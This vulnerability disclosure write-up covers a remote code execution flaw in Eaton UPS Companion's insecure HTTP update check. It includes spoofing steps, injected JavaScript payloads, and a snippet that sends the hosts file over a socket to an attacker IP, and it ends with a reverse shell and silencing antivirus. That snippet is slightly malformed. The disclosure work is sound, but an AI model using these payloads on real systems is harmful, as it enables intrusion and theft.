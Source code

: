 ## Overview

The Eaton UPS Companion software checks for an update every single week over an insecure HTTP connection
and `eval()`s the content of whatever is at the update URL. This allows an attacker to craft a JavaScript
function which uses the low-level OS operations that already exist in the backend software, like file
execution, network sockets, and filesystem I/O. All of these operations occur with NT AUTHORITY\SYSTEM
privileges likely due to the permissions a UPS (Uninterrupted Power Supply) needs for system management.
After waiting a while, automatic command injection that grants a SYSTEM shell occurs without effort.

[This has been fixed in version 1.06 and the CVE ID assigned is CVE-2020-6650.](https://www.eaton.com/content/dam/eaton/company/news-insights/cybersecurity/security-bulletins/eaton-vulnerability-advisory-UPS-companion-software.pdf)

#### Timeline (UTC+12)
|                   |                    |
|-------------------|--------------------|
| Bug noticed       | 2019/10/25 - 21:43 |
| Exploit realised  | 2019/12/28 - 06:28 |
| Reported to Eaton | 2019/12/28 - 10:00 |
| Acknowledged      | 2019/12/30 - 22:05 |
| Simple PoC sent   | 2020/01/04 - 03:32 |
| Being patched     | 2020/01/21 - 12:54 |
| Patched           | 2020/03/21 - 12:21 |

Thank you to Eaton for making this exploit's disclosure simple.

---

### Discovery Steps

Eaton UPS Companion gets updates from http://pqsoftware.eaton.com/upgrade/upgrade_euc.info

Issue 1: Can be easily spoofed via dsniff's `arpspoof` and `dnsspoof`, then `python -m http.server 80`.
Issue 2: Lack of HTTPS opens up another attack vector for the same effect.

As of 2019/10/25 - 22:08, this is the contents of the link:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
// CHECK: |12ef94bf01265a99b04bab6263bbc0eba652ec3e|
{
  "EUC":
  {
    "WINDOWS":
    {
      "version": "1.04.017",
      "packageURL": "install/win32/euc/euc_win_1_04_017.exe",
      "info": "New release<br />More information here: <a href='http://pqsoftware.eaton.com' target='_blank'>Link to Eaton site</a><br />"
    }
  }
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Cannot figure out how the SHA1 checksum for the file is calculated or what is used to calculate it,
but doing so would make this much simpler.

Eaton UPS Companion creates a local HTTP server at http://localhost:4679.
Clicking on "Version: Eaton UPS Companion v1.05" opens up a "hidden" debug log at http://localhost:4679/trace.html.
It can also be opened via ".\mc2.exe -start -debug" in `cmd.exe`

Serving an empty HTML page causes a prominent error that gets logged: 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
2019/10/25-21:32:29.051 | UpdateManager        | !!! ERROR: Update data could not be parsed: 
{
  "message": "syntax error", 
  "fileName": "scripts/libs/json.js", 
  "lineNumber": 122, 
  "stack": "()@:0\neval(\"()\")@:0\n(\"\") . . .
  "name": "SyntaxError"
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

`eval()` is being used here, which makes it easier for us. Here is an example of UI manipulation,
where the content below goes into `update_euc.info`.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
UIManager.setCmd({action:'showMessage', id:'softwareUpgradeMessage', msg:System.getProductInfo(L('/Install/ServerUnreachable')), buttons:{ok:'/Misc/OK'}})
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This can be transformed into a proper function thanks to anonymous functions:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
(function() {
        UIManager.setCmd({action:'showMessage', msg:System.getProductInfo(L('Ravjot was here 1.')), buttons:{ok:'Game Over 1'}});
        UIManager.setCmd({action:'showMessage', msg:System.getProductInfo(L('Ravjot was here 2.')), buttons:{ok:'Game Over 2'}});
})()
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I believe there may be access to `ShutdownManager` as well, which is not good.

Going to http://localhost:4679/server/data_srv.js?action=init reveals more information about how the system works.
Regular JS functions like `alert()` don't exist and objects like `document`, `console` and `object` also don't exist.
Really old edition of ECMAScript or something? No `let` keyword either, just `var`.

This might help:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
"stack": "()@:0\neval(\"()\")@:0\n(\"\")@scripts/libs/json.js:122\n((function (upgradeStatus) {trace(\"ui_cgf\", \"Check upgrade returns: '{0}'\", upgradeStatus);if (upgradeStatus == \"NEW_VERSION\") {UIManager.setCmd({action:\"showMessage\", id:\"softwareUpgradeMessage\", msg:S(L(\"/Install/SoftwareUpgradeLaunch\"), UpdateManager.updateData.version), buttons:{yes:\"/Misc/Yes\", no:\"/Misc/No\"}});} else if (upgradeStatus == \"UP_TO_DATE\") {UIManager.setCmd({action:\"showMessage\", id:\"softwareUpgradeMessage\", msg:L(\"/Install/NoSoftwareUpgradeAvailable\"), buttons:{ok:\"/Misc/OK\"}});} else if (upgradeStatus == \"SERVER_UNREACHABLE\") {UIManager.setCmd({action:\"showMessage\", id:\"softwareUpgradeMessage\", msg:System.getProductInfo(L(\"/Install/ServerUnreachable\")), buttons:{ok:\"/Misc/OK\"}});}}))@scripts/managers/update_manager.js:175\n(\"\")@scripts/configs/ui_cfg.js:1058\n([object Object])@scripts/managers/ui_manager.js:55\nsendData([object Object])@/server/data_srv.js:75\n([object Object],[object Object])@/server/data_srv.js:82\n([object Object])@scripts/libs/http_server.js:274\ncall([object Object],[object Object])@:0\n()@scripts/libs/core/thread.js:136\n@runThread:1\n",

UIManager.setCmd({action:'showMessage', id:'softwareUpgradeMessage', msg:S(L('/Install/SoftwareUpgradeLaunch'), UpdateManager.updateData.version), buttons:{yes:'/Misc/Yes', no:'/Misc/No'}});
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I can see all of the properties of the "manager" objects e.g. `UpdateManager` via:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
(function() {
  for (var property in UpdateManager) {
    UIManager.setCmd({action:'showMessage', msg:System.getProductInfo(property + " IS " + UpdateManager[property]), buttons:{ok:'Game Over'}});
  }
})()
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Doing that on the `UpdateManager` found these very interesting functions:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
selfUpdate IS function () {\n    var packagePath = UpdateManager.retrievePackage();\n    if (packagePath) {\n        ThreadPool.run(function () {var adminOK = System.getAdminRights();if (adminOK) {var installCmd = S(\"?/?\", File.getCurrentWorkingDir(), packagePath);var installPrm = \"-install -silent\";if (!File.status(\"scripts\")) {debug(\"UpdateManager\", \"Launching update package '? ?' ...\", installCmd, installPrm);System.open(installCmd, installPrm);} else {debug(\"UpdateManager\", \"Launching update package '? ?' muted\", installCmd, installPrm);}} else {error(\"UpdateManager\", \"Unable to get admin rights to launch upgrade\");}});\n    }\n}

retrievePackage IS function () {\n    var updateLocation = UpdateManager.updateLocation;\n    if (!UpdateManager.updateData) {\n        UpdateManager.checkForUpgrade();\n    }\n    if (!UpdateManager.updateData.packageURL) {\n        error(\"UpdateManager\", \"Unable to retrieve package url: UpdateManager.updateData = ?\", dump(UpdateManager.updateData, 2));\n        return false;\n    }\n    var packageURL = UpdateManager.updateData.packageURL;\n    var packagePath = S(\"?/?\", UpdateManager.outputPath, File.pathInfo(packageURL).file);\n    File.createPath(UpdateManager.outputPath);\n    if (File.status(packagePath)) {\n        debug(\"UpdateManager\", \"Update package '?' already in cache.\", packagePath);\n        return packagePath;\n    }\n    debug(\"UpdateManager\", \"Retrieving update package at '?'\", packageURL);\n    var client = new HTTPClient(updateLocation);\n    var response = client.get(packageURL);\n    if (response && response.status == 200) {\n        debug(\"UpdateManager\", \"Retrieved package at '?'\", packageURL);\n        try {\n            File.put(packagePath, response.data);\n            debug(\"UpdateManager\", \"Saved update package in file '?'\", packagePath);\n            return packagePath;\n        } catch (e) {\n            error(\"Failed to save update package at '?'\", packagePath);\n        }\n    } else {\n        debug(\"UpdateManager\", \"Failed to retrieve package at '?'\", packageURL);\n    }\n    return false;\n}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This manages to spell out that we can cause problems:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
(function() {
  if (System.getAdminRights()) {
    UIManager.setCmd({action:'showMessage', msg:System.getProductInfo(L("Ravjot is admin.")), buttons:{ok:'Game Over'}});
  }
})()
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

There's more useful function calls like `File.get("C:\\Windows\\System32\\drivers\\etc\\hosts")` which blurts out the
host file's content into a string, but only internally. After digging through the HTTPClient object's properties, there's
another object class that lets you create sockets.

For example, to receive the hosts file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
(function() {
  var hosts = File.get("C:\\Windows\\System32\\drivers\\etc\\hosts");
  var s = new Socket("tcp");
  s.connect("192.168.1.???", 44444);
  s.send(hosts);
  s.close;
 }
})()
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Eventually, I discovered how `System.open(<file>, <args>)` works, which executes a file. From here, it's just uploading
a reverse shell, hushing any anti-virus solution (as we have SYSTEM privileges), and obtaining a reverse shell.
